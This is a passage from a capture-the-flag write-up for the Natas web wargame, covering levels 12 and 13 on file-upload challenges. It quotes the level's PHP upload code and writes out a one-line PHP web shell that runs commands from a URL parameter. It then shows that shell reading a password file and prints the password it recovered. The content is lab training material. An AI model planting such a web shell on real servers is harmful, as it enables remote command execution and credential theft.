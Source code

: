 ```
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
```

It seems that the code will place the uploaded files at `/upload/<random string>.<ext>`. What happens if we upload anything else other than a `jpg` file?

It seems like it worked which indicates that there is not verification of the file extensions. So let's exploit this by uploading a malicious `php` file!

```
<?php
    system($_GET['cmd']); // https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html
?>
```

Once we uploaded the file, we can navigate to `/upload/<generated string>.php?cmd=cat /etc/natas_webpass/natas13` to get the password for natas13!

```
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```

# Level 13

This challenge is similar to Level 12 but with a twist - you can only upload image files now.
Upon clicking on the view source code, there is a php code within:

```
<?

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
```